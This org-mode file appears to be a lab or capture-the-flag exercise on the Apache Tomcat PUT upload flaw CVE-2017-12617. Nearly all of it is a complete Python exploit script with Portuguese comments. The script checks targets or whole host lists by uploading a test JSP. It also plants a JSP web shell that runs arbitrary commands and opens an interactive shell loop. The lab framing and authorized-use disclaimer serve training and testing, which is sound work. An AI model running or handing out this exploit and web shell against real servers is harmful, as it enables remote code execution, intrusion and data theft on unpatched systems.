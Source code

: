 #+title: Apache Tomcat JSP Upload Bypass Remote Code Execution (CVE-2017-12617)
#+author: gabriel

* intro
Apache Tomcat is a popular and widely-used web server and servlet container that supports Java Servlet and JavaServer Pages technologies.

This laboratory contains the CVE-2017-12617 vulnerability found in Apache Tomcat versions 9.0.0.M1 to 9.0.0, 8.5.0 to 8.5.22, 8.0.0.RC1 to 8.0.46, and 7.0.0 to 7.0.81. This vulnerability allows attackers to upload JSP files via specially crafted requests when HTTP PUT is enabled (e.g., by setting the Default servlet's readonly initialization parameter to false). The uploaded JSP file could then be requested and any code contained within it would be executed by the server, allowing attackers to execute arbitrary code on the server.

What is the secret in the /secret.txt file?

* exploit
#+begin_src python
#!/usr/bin/env python3
import requests
import re
import signal
import sys
import argparse
from urllib3.exceptions import InsecureRequestWarning

# Script adaptado para Python 3.
# O uso desta ferramenta deve ser restrito a ambientes de teste controlados e autorizados.
# A exploração de vulnerabilidades em sistemas alheios é ilegal.

# Desabilita avisos de certificado SSL inválido
requests.packages.urllib3.disable_warnings(category=InsecureRequestWarning)

class bcolors:
    HEADER = '\033[95m'
    OKBLUE = '\033[94m'
    OKGREEN = '\033[92m'
    WARNING = '\033[93m'
    FAIL = '\033[91m'
    ENDC = '\033[0m'
    BOLD = '\033[1m'
    UNDERLINE = '\033[4m'

banner = """
    _______      ________    ___   ___  __ ______      __ ___   __ __ ______
  / ____\ \    / /  ____|   |__ \ / _ \/_ |____  |    /_ |__ \ / //_ |____  |
 | |     \ \  / /| |__ ______ ) | | | || |   / /_____| |  ) / /_ | |   / /
 | |      \ \/ / |  __|______/ /| | | || |  / /______| | / / '_ \| |  / /
 | |____   \  /  | |____     / /_| |_| || | / /        | |/ /| (_) | | / /
  \_____|   \/   |______|   |____|\___/ |_|/_/         |_|____\___/|_|/_/

[@intx0x80]
"""

def signal_handler(signal, frame):
    print(f"\n{bcolors.FAIL}[-] Saindo...{bcolors.ENDC}")
    sys.exit(0)

signal.signal(signal.SIGINT, signal_handler)

def removetags(tags):
    remove = re.compile('<.*?>')
    txt = re.sub(remove, '\n', tags)
    return txt.replace("\n\n\n", "\n")

def getContent(url, f):
    headers = {'User-Agent': 'Mozilla/5.0 (Macintosh; Intel Mac OS X 10_10_1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/39.0.2171.95 Safari/537.36'}
    try:
        res = requests.get(f"{url}/{f}", headers=headers, verify=False, timeout=10)
        return res.content
    except requests.exceptions.RequestException as e:
        print(f"{bcolors.FAIL}[-] Erro ao conectar em {url}: {e}{bcolors.ENDC}")
        return b''

def createPayload(url, f):
    evil = '<% out.println("AAAAAAAAAAAAAAAAAAAAAAAAAAAAA");%>'
    headers = {'User--Agent': 'Mozilla/5.0 (Macintosh; Intel Mac OS X 10_10_1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/39.0.2171.95 Safari/537.36'}
    try:
        req = requests.put(f"{url}{f}/", data=evil, headers=headers, verify=False, timeout=10)
        if req.status_code == 201:
            print(f"{bcolors.OKGREEN}[+] Arquivo de teste criado com sucesso.{bcolors.ENDC}")
    except requests.exceptions.RequestException as e:
        print(f"{bcolors.FAIL}[-] Falha ao criar payload em {url}: {e}{bcolors.ENDC}")

def RCE(url, f):
    EVIL = f"""<FORM METHOD=GET ACTION='{f}'>
    <INPUT name='cmd' type=text>
    <INPUT type=submit value='Run'>
    </FORM>
    <%@ page import="java.io.*" %>
    <%
    String cmd = request.getParameter("cmd");
    String output = "";
    if(cmd != null) {{
       String s = null;
       try {{
           Process p = Runtime.getRuntime().exec(cmd,null,null);
           BufferedReader sI = new BufferedReader(new
InputStreamReader(p.getInputStream()));
           while((s = sI.readLine()) != null) {{ output += s+"</br>"; }}
       }}  catch(IOException e) {{   e.printStackTrace();   }}
    }}
%>
<pre><%=output %></pre>"""
    headers = {'User-Agent': 'Mozilla/5.0 (Macintosh; Intel Mac OS X 10_10_1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/39.0.2171.95 Safari/537.36'}
    try:
        requests.put(f"{url}{f}/", data=EVIL, headers=headers, verify=False, timeout=10)
    except requests.exceptions.RequestException as e:
        print(f"{bcolors.FAIL}[-] Falha ao enviar o webshell para {url}: {e}{bcolors.ENDC}")


def shell(url, f):
    print(f"{bcolors.OKBLUE}[*] Shell interativo iniciado. Digite 'q' ou 'Q' para sair.{bcolors.ENDC}")
    while True:
        headers = {'User-Agent': 'Mozilla/5.0 (Macintosh; Intel Mac OS X 10_10_1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/39.0.2171.95 Safari/537.36'}
        cmd = input(f"{bcolors.BOLD}$ {bcolors.ENDC}")
        payload = {'cmd': cmd}
        if cmd.lower() == "q":
            break

        try:
            res = requests.get(f"{url}/{f}", params=payload, headers=headers, verify=False, timeout=15)
            # Decodifica a resposta de bytes para string
            content_str = res.content.decode('utf-8', errors='ignore')
            t = removetags(content_str)
            print(t)
        except requests.exceptions.RequestException as e:
            print(f"{bcolors.FAIL}[-] Erro ao executar comando: {e}{bcolors.ENDC}")
            break

def main():
    usage_text = f"""
{bcolors.HEADER}
./cve-2017-12617.py [options]

Opções:
  -u, --url [URL]     Verifica se um alvo é vulnerável.
  -p, --pwn [NOME]    Gera e faz upload de um webshell com o nome de arquivo especificado.
  -l, --list [ARQUIVO]  Verifica uma lista de hosts de um arquivo.

Exemplos de uso:
  ./cve-2017-12617.py -u http://127.0.0.1
  ./cve-2017-12617.py --url http://127.0.0.1 --pwn webshell
  ./cve-2017-12617.py -l hosts.txt
{bcolors.ENDC}"""

    parser = argparse.ArgumentParser(description=banner, usage=usage_text, formatter_class=argparse.RawDescriptionHelpFormatter)
    parser.add_argument("-u", "--url", dest="U", help="URL do Alvo")
    parser.add_argument("-p", "--pwn", dest="P", help="Nome do arquivo para o webshell (ex: 'shell')")
    parser.add_argument("-l", "--list", dest="L", help="Arquivo com lista de hosts")

    args = parser.parse_args()

    if not any([args.U, args.P, args.L]):
        print(parser.usage)
        sys.exit(0)

    print(f"{bcolors.OKGREEN}{banner}{bcolors.ENDC}")

    if args.U and not args.P and not args.L:
        url = args.U.rstrip('/')
        checker = "Poc.jsp"
        print(f"{bcolors.BOLD}[*] Nome do arquivo de teste: {checker}{bcolors.ENDC}")
        createPayload(f"{url}/", checker)
        con = getContent(url, checker)
        if b'AAAAAAAAAAAAAAAAAAAAAAAAAAAAA' in con:
            print(f"{bcolors.WARNING}[+] {url} é VULNERÁVEL a CVE-2017-12617{bcolors.ENDC}")
            print(f"{bcolors.WARNING}[+] Acesse: {url}/{checker}{bcolors.ENDC}")
        else:
            print(f"{bcolors.FAIL}[-] {url} não parece ser vulnerável.{bcolors.ENDC}")

    elif args.U and args.P and not args.L:
        url = args.U.rstrip('/')
        pwn_file = f"{args.P}.jsp"
        print(f"{bcolors.BOLD}[*] Fazendo upload do webshell para {url}/{pwn_file}...{bcolors.ENDC}")
        RCE(f"{url}/", pwn_file)
        shell(url, pwn_file)

    elif args.L and not args.U and not args.P:
        host_file = args.L
        print(f"[*] Verificando hosts do arquivo {host_file}")
        checker = "Poc.jsp"
        try:
            with open(host_file, "r") as f:
                for line in f:
                    host = line.strip().rstrip('/')
                    if not host:
                        continue
                    print(f"{bcolors.OKBLUE}[*] Testando {host}...{bcolors.ENDC}")
                    createPayload(f"{host}/", checker)
                    con = getContent(host, checker)
                    if b'AAAAAAAAAAAAAAAAAAAAAAAAAAAAA' in con:
                        print(f"{host} {bcolors.WARNING}[ VULNERÁVEL ]{bcolors.ENDC}")
                    else:
                        print(f"{host} {bcolors.OKGREEN}[ NÃO VULNERÁVEL ]{bcolors.ENDC}")
        except FileNotFoundError:
            print(f"{bcolors.FAIL}[-] Arquivo de lista '{host_file}' não encontrado.{bcolors.ENDC}")

if __name__ == "__main__":
    main()
#+end_src
